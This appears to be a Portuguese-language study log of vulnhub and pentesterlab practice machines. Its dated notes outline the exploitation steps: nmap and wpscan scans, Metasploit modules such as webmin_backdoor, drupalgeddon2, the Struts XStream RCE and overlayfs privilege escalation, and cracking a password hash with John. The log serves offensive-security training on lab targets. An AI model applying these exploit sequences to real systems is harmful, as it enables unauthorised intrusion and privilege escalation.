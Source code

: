 --VM--
desafio 1 - https://www.vulnhub.com/entry/hacker-fest-2019,378/
desafio 2 - https://pentesterlab.com/exercises/s2-052/course
desafio 3 - https://www.vulnhub.com/entry/droopy-v02,143/
desafio 4 - https://www.vulnhub.com/entry/digitalworldlocal-joy,298/
desafio 5 - https://www.vulnhub.com/entry/violator-1,153/
desafio 6 - https://www.vulnhub.com/entry/w1r3s-101,220/
Desafio 7 - https://www.vulnhub.com/entry/ha-wordy,363/
Desafio 8 - https://www.vulnhub.com/entry/sunset-1,339/
Desafio 9 - https://www.vulnhub.com/entry/dc-1-1,292/#download
Desafio 10 - https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
Desafio 11 - vulnhub.com/entry/goldeneye-1,240/
Desafio 12 - https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/
Desafio 13 - 
--VM--
  
#Dia 1 - desafio 2(1° desafio)     7/9/2020
        *scan com nmap        
        *identificação do wordpress -> wpscan -> pesquisar por exploit dos plugins -> wp_google
        *msfconsole -> auxiliary/admin/http/wp_google_maps_sqli
        *quebrar a hash da senha com John 
                john arquivo_com_hash.txt --wordlist=rockyou.txt
        *searchsploit webmin(etapa 1 com nmap - serviço porta 10000)
                *msfconsole -> search webmin
                *use exploit/linux/http/webmin_backdoor  
                *Set ForceExploit true -> versão do exploit é diferente do seviço, força a execução mesmo assim
                *set ssl true -> não sei pq, talvez seja obrigatório "uso do ssl" 
                *find /root
                        cat flag.txt
                *find /home
                        cat /home/webmaster/flag.txt



#Dia 2 - desafio 2(° 2desafio)			8/9/2020
	*Pesquisa sobre “trust” -> vulnerabilidade conhecida -> exploit encontrado: Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution
	
	*varredura da máquina
		nmap -sV
	*execuçaõ do exploit no msfconsole




#Dia 3 			9/9/2020
	*Varredura do alvo
		indetificação vulnerabilidade 
			
	*Invasão do alvo
		exploit unix/webapp/drupal_drupalgeddon2
	
	*Escalaçao de privilégios referência CVE 2015-1328
		msf5 search  CVE-2015-1328
			exploit/linux/local/overlayfs_priv_esc
			